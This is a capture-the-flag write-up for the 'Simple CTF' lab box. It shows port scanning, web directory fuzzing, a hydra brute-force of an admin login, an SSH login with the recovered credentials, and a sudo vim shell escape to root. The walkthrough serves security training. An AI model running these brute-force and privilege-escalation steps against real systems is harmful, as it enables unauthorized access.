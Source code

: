 ```yaml
---
cover: ../../.gitbook/assets/e1.png
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Simple CTF

### Information gathering

#### Port scanning

```bash
kali@kali> mdkir -p /tmp/thm/simple-ctf
kali@kali> nmap -p- -T4 -oN nmap-all-ports 10.10.122.214
kali@kali> ports="$(cat nmap-all-ports|grep ^[0-9]|cut -d'/' -f1|tr '\n' ','|sed 's/,$//')"
kali@kali> sudo nmap -p $ports -sV -sC -O 10.10.122.214 -oN nmap-services
```

The output `nmap-services` displays three services :

| Port     | Protocol | Service             |
| -------- | -------- | ------------------- |
| 21/TCP   | FTP      | vsftpd 3.0.3        |
| 80/TCP   | HTTP     | Apache httpd 2.4.18 |
| 2222/TCP | SSH      | OpenSSH 7.2p2       |

#### Web enumeration

```bash
kali@kali> ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.122.214/FUZZ -fw 3503 -o web-enumeration
```

New path : http://10.10.122.214/simple.

<figure><img src="../../.gitbook/assets/e2.png" alt=""><figcaption></figcaption></figure>

There are two informations.

* You can go to the admin panel by clicking on the **here** hyperlink (http://10.10.122.214/simple/admin/login.php) .
* It exists a **mitch** user.

<figure><img src="../../.gitbook/assets/e3.png" alt=""><figcaption></figcaption></figure>

#### Brute-forcing credentials

```bash
kali@kali> hydra -l mitch -P /usr/share/wordlists/rockyou.txt 10.10.122.214 http-post-form '/simple/admin/login.php:username=mitch&password=^PASS^&loginsubmit=Submit:password incorrect'
```

Hydra finds the credentials `mitch:secret`.

### Exploitation

#### Via SSH

Try to connect by SSH service on port 2222.

```bash
kali@kali> ssh mitch@10.10.122.214 -p 2222
mitch@victim> id
mitch@victim> cat /home/mitch/user.txt
```

### Post-exploitation

#### SUDO permissions

```
mitch@victim> sudo -l
```

<figure><img src="../../.gitbook/assets/e4.png" alt=""><figcaption></figcaption></figure>

Thus it's possible to use `vim` as root.

```bash
mitch@victim> sudo vim
```

Once the editor is open, type the command `!/bin/bash` and it pwns a root terminal.

```bash
root@victim> cat /root/root.txt
```
